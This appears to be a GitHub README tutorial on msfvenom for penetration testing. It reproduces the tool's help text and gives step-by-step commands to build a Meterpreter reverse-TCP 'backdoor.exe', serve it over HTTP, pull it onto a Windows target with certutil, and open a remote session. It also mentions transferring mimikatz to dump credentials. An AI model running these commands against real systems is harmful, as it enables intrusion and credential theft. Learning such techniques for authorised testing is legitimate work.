





# Trasferring-Malicious-Payload-MSFvenom
Let's introduce how to transferring files on Target Machine (Windows &amp; Linux)
# Introduction MSFvenom
Msftvenom is a tool for generating and encoding payloads for penetration testing. It is part of the Metasploit Framework, a popular suite of tools for security professionals. Msftvenom can create payloads for various platforms and formats, and it can also apply different encoders to evade detection. The purpose of msftvenom is to create malicious code that can be injected into a target system to gain access or execute commands. 
 

MsfVenom - a Metasploit standalone payload generator. 
Also a replacement for msfpayload and msfencode. 
Usage: /usr/bin/msfvenom [options] <var=val> 
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe 

Options: 
     - -l, --list            <type>     **List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all** 
     - -p, --payload         <payload>  **Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom** 
         - --list-options               **List --payload <value>'s standard, advanced and evasion options** 
     - -f, --format          <format>   **Output format (use --list formats to list)**  
     - -e, --encoder         <encoder>  **The encoder to use (use --list encoders to list)**  
         - --service-name    <value>    **The service name to use when generating a service binary** 
         - --sec-name        <value>    **The new section name to use when generating large Windows binaries. Default: random 4-character alpha string** 
         - --smallest                   **Generate the smallest possible payload using all available encoders** 
         - --encrypt         <value>    **The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)**  
         - --encrypt-key     <value>    **A key to be used for --encrypt** 
         - --encrypt-iv      <value>    **An initialization vector for --encrypt** 
     - -a, --arch            <arch>     **The architecture to use for --payload and --encoders (use --list archs to list)**  
         - --platform        <platform> **The platform for --payload (use --list platforms to list)**  
     - -o, --out             <path>     **Save the payload to a file**  
     - -b, --bad-chars       <list>     **Characters to avoid example: '\x00\xff'**  
     - -n, --nopsled         <length>   **Prepend a nopsled of [length] size on to the payload**  
         - --pad-nops                   **Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)**  
     - -s, --space           <length>   **The maximum size of the resulting payload**  
         - --encoder-space   <length>   **The maximum size of the encoded payload (defaults to the -s value)**  
     - -i, --iterations      <count>    **The number of times to encode the payload**  
     - -c, --add-code        <path>     **Specify an additional win32 shellcode file to include**  
     - -x, --template        <path>     **Specify a custom executable file to use as a template**  
     - -k, --keep                       **Preserve the --template behaviour and inject the payload as a new thread**  
     - -v, --var-name        <value>    **Specify a custom variable name to use for certain output formats**  
     - -t, --timeout         <second>   **The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)**  
     - -h, --help                       **Show this message**  

## Example of trasferring malicious payload 
We are in Post Explotation phase, so you need an initial access on the Target.   
I transferred a payload created by msfvenom, but you can transfer all files you need, like mimikatz.exe to perform credentials dumping, etc.   
**Command to generate a malicious payload (reverse_tcp): msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.9.3 LPORT=4444 -f exe > 'backdoor.exe' (set LPORT and LHOST where you want to receive the connection)  **
  
**Setting up the web server: python3 -m http.server 80  **
  
**Download the payload with certutil: certutil -urlcache -f http://10.10.9.3/backdoor.exe  **
  
**Use Metasploit to setting up a handler to listening the connections  **
  
**Execute the backdoor.exe on the Target and you got a Meterpreter Session on your Machine**

#Author
<b>Xiao Li Savio Feng</b>
